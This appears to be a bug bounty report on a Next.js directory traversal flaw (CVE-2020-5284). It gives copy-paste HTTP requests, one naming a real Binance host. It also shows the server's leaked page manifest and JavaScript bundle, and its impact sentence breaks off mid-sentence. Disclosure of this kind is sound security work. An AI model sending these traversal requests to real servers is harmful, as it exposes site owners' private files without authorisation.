 
# Directory traversal allows arbitrary file read (CVE-2020-5284)


## Summary
Next.js (versions before 9.3.2) have a directory traversal vulnerability. Using crafted requests, is possible to access files in the dist directory (.next). 

## Affected assets 

 - $DOMAIN

## Steps To Reproduce

Copy and paste the requests in Burp.

1.  Checking for vulnerability
```
GET /_next/static/../server/pages-manifest.json HTTP/1.1
Host: info.binance.com
Connection: close
Accept: */*
Accept-Language: en
Connection: close
Content-Length: 0
```
Response
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=UTF-8
... (TRUNCATED)

{"/_app":"bundles/pages/_app.js",
"/_document":"bundles/pages/_document.js",
"/_error":"bundles/pages/_error.js",
"/info-add-edit":"bundles/pages/info-add-edit.js",
"/info-add-news":"bundles/pages/info-add-news.js",
"/info-all":"bundles/pages/info-all.js",
"/info-app-download":"bundles/pages/info-app-download.js",
"/info-detail":"bundles/pages/info-detail.js",
"/info-edit-ico":"bundles/pages/info-edit-ico.js",
"/info-edit-teams":"bundles/pages/info-edit-teams.js",
"/info-edit-vcs":"bundles/pages/info-edit-vcs.js",
"/info-news-detail":"bundles/pages/info-news-detail.js",
"/info":"bundles/pages/info.js",
"/organization":"bundles/pages/organization.js",
"/rate-list":"bundles/pages/rate-list.js",
"/rate-report":"bundles/pages/rate-report.js",
"/rating-detail":"bundles/pages/rating-detail.js",
"/research":"bundles/pages/research.js"}
```
Now that we have confirmed the vulnerability, we can read the files shown on the last request

```
GET /_next/static/../bundles/pages/info-app-download.js HTTP/1.1
Host: REDACTED
Connection: close
Accept: */*
Accept-Language: en
Connection: close
Content-Length: 0


```
Response (trunked)
```
HTTP/1.1 200 OK
Content-Type: application/javascript; charset=UTF-8
Content-Length: 8002
Connection: close
Date: Sat, 03 Oct 2020 07:37:10 GMT
Server: Tengine
Vary: Accept-Encoding
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Mon, 07 Sep 2020 10:09:28 GMT
ETag: W/"1f42-174680abbc0"
Vary: Accept-Encoding
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Referrer-Policy: origin-when-cross-origin
Strict-Transport-Security: max-age=31536000; includeSubdomains
X-Cache: Miss from cloudfront
Via: 1.1 REDACTED.cloudfront.net (CloudFront)
X-Amz-Cf-Pop: SCL50-C1
X-Amz-Cf-Id: k-RepQTs_VcGfZ9Aug9ALHfu5CBFb_x0LXMk7CLqFic6JRDbCGwtlQ==

module.exports=__NEXT_REGISTER_PAGE("/info-app-download",function(){return{page:webpackJsonp([21],{1257:function(e,t,n){e.exports=n(1258)},1258:function(e,t,n){"use strict";Object.defineProperty(t,"__esModule",{value:!0});n(4),n(200),n(23);var o=n(15),a=n.n(o),i=n(1),r=n.n(i),l=n(18),c=(n(2),n(3)),s=n(9),m=n(176),u=n(182),p=n(14),d=n(22),f=n.n(d),h=(n(24),n(35)),g=n.n(h),b=n(183);function w(e){for(var t=1;t<arguments.length;t++){var n=null!=arguments[t]?arguments[t]:{},o=Object.keys(n);"function"==typeof Object.getOwnPropertySymbols&&(o=o.concat(Object.getOwnPropertySymbols(n).filter(function(e){return Object.getOwnPropertyDescriptor(n,e).enumerable}))),o.forEach(function(t){y(e,t,n[t])}
```
 
The response above is the content of the file info-app-download.js, you can repeat the same process for every file included in the pages-manifest.json (first request/response)




## Impact
It's possible to read  all the files described in the pages-manifest.json files. This violates the principle of 

### Supporting Material/References:
[NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-5284)


